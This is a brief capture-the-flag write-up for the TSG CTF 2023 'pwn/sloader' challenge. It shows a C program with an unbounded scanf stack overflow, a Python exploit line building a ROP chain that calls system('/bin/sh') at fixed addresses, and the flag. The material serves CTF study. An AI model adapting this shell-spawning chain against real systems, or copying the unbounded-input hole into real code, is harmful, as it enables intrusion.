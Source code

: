 # TSG CTF 2023 - pwn/sloader

## Solution

This challenge has an obvious stack buffer overflow bug:

```c
#include <stdio.h>

int main(void) {
    char buf[16];
    scanf("%s", buf);
    return 0;
}
```

The binary is PIE enabled, but `sloader` seems to be loaded to a fixed address, so we can easily do ROP.

## Exploit

```python
sc.sendline(b"*" * 16 + b"_" * (8 * 2) + u64(
    0,          # (rbp)
    0x10262171, # pop rdi; ret;
    0x10270563, # "/bin/sh"
    0x1012c98c, # ret;
    0x1012c960  # system
))
```

## Flag

```
TSGCTF{sload_your_way_to_glory}
```